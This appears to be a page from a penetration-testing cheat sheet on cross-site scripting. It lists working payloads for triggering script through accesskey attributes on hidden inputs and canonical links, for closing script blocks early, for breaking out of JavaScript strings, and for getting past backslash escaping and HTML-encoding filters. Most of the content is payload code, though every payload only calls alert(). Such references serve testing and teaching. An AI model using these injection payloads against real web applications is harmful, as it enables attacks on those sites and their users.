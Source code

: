 * Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible

```html
<input type="hidden" accesskey="X" onclick="alert(1)">
```

```html
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

{% hint style="info" %}
**Tips**:

* Substitute `'` `"` and viceversa
* Space is not needed

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```
{% endhint %}

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```

### <mark style="color:yellow;">Into JavaScript</mark>

**Terminating the existing script** (I don't really know why this works but it works).&#x20;

The browser incorrectly interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.

```html
<script>
...
var input = 'controllable data here';
...
</script>
```

```html
<!-- Payload -->
</script><img src=1 onerror=alert(document.domain)>
```

***

**Breaking out of a JavaScript string**

* It's essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

* Some applications try to escape single quote characters with a backslash but often forget to escape the backslash itself.
  * `';alert(document.domain)//` is converted to `\';alert(document.domain)//`&#x20;
  * so your input could be `\';alert(document.domain)//` which gets converted to `\\';alert(document.domain)//`
* Making use of HTML-encoding
  * When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around input filters.
    * `<a href="#" onclick="... var input='controllable data here'; ...">`
    * `&apos;-alert(document.domain)-&apos;`
    * The browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted
    * HTML encode: https://html.spec.whatwg.org/multipage/named-characters.html
